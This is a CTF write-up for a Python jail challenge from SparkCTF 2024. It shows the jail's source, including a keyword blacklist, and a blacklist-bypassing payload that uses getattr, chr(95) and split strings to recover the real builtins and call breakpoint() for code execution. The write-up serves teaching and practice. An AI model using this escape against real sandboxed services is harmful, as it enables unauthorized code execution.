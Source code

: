 ## Pyhell-Task-SparkCTF-2024
This repo will cover the writeup for the pyjail task hosted at SparkCTF 2024
# Description
This task focused on breaking a Python environment that restricts the built-in functions accessible to the user and employs a blacklist to prohibit specific keywords and characters, which could otherwise be exploited to circumvent these limitations.

#### Files: jail.py
```python
import re
import builtins
import sys

def safe_eval(user_input):
    safe_builtins = {
        "__builtins__": {name: getattr(builtins, name) for name in ['print', 'int', 'float', '__import__', 'getattr', 'chr']}
    }

    try:
        exec(user_input, safe_builtins, {})
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)

def jail():
    ascii_art = """
                                                                                                        _..._                                  
                                .---..---.                                                           .-'_..._''.                    .---..---. 
   .              __.....__     |   ||   |          .--.   _..._                                   .' .'      '.\\     __.....__     |   ||   | 
 .'|          .-''         '.   |   ||   |          |__| .'     '.                                / .'            .-''         '.   |   ||   | 
<  |         /     .-''"'-.  `. |   ||   |          .--..   .-.   .                              . '             /     .-''"'-.  `. |   ||   | 
 | |        /     /________\\   \\|   ||   |          |  ||  '   '  |              __              | |            /     /________\\   \\|   ||   | 
 | | .'''-. |                  ||   ||   |          |  ||  |   |  |           .:--.'.            | |            |                  ||   ||   | 
 | |/.'''. \\\\    .-------------'|   ||   |          |  ||  |   |  |          / |   \\ |           . '            \\\\    .-------------'|   ||   | 
 |  /    | | \\    '-.____...---.|   ||   |          |  ||  |   |  |          `" __ | |            \\ '.          .\\    '-.____...---.|   ||   | 
 | |     | |  `.             .' |   ||   |          |__||  |   |  |           .'.''| |             '. `._____.-'/ `.             .' |   ||   | 
 | |     | |    `''-...... -'   '---''---'              |  |   |  |          / /   | |_              `-.______ /    `''-...... -'   '---''---' 
 | '.    | '.                                           |  |   |  |          \\ \\._,\\ '/                       `                                
 '---'   '---'                                          '--'   '--'           `--'  `"                                                         
!! Even Michael Scofield can not escape this .
    """
    print(ascii_art)

    max_input_length = 553

    while True:
        user_input = input(">>> ")

        if len(user_input) > max_input_length:
            print("Bro chill !!! That's kinda long")
            continue

        blacklist = ['exec', 'eval', 'os', 'sys', 'subprocess', 'file', 'open', 'register', 'setattr', 'input', 'mro', 'globals', 'class', 'getitem', 'breakpoint', '_', '.','[',']']

        for block in blacklist:
            if block in user_input:
                print(f"No no {block} is not allowed in here")
                break
        else:
            safe_eval(user_input)

if __name__ == "__main__":
    jail()
```
### Payload-example :
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```

This payload navigates Python's internal structures to reference the original __builtins__ module not the restricted version provided in the script.
But first we need to find replacements for `_ [ ] .` and other words like `class register builtins breakpoint`.
The main key is to exploit the custom builtins set in our `safe_eval` function. Pretty much `print int float` are kinda usless in our case ( maybe print is useful to test ). We can notice that we have the `getattr` function which if you google it you can already find that it can replaces `.` to accessing attributes.
Another thing in our custom builtins we notice the `chr` function which we can use to replace the `_` by just using `chr(95)`, so now 2 of our major problems are done. 
We will conduct another search to find alternatives for replacing the use of `[]` in Python and one of the main things we will find is the use of getitem method.
We are almost done we found a way to replace the main restrictions  `_ [ ] .`. Now we just need to find a way to bypass the restrictions set for the words in the blacklist which pretty easy we need just to concatenate them using `+` for example we change `class` to `'cl'+'ass'`. That's it now we how to bypass everything all we need to do is construct our new payload ( just don't tilt while constructing it ) 
Our payload should transform from: 
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
to: 
 ```python
getattr(getattr(getattr(getattr(getattr(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'subcl'+'asses' + chr(95) + chr(95))(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95))), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))(0), 'regi'+'ster'), chr(95) + chr(95) + 'buil'+'tins' + chr(95) + chr(95)), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))('break'+'point')()
```
After using the brekpoint() function and starting the debugger we can just open our flag 
![Alt text](/flag.png)

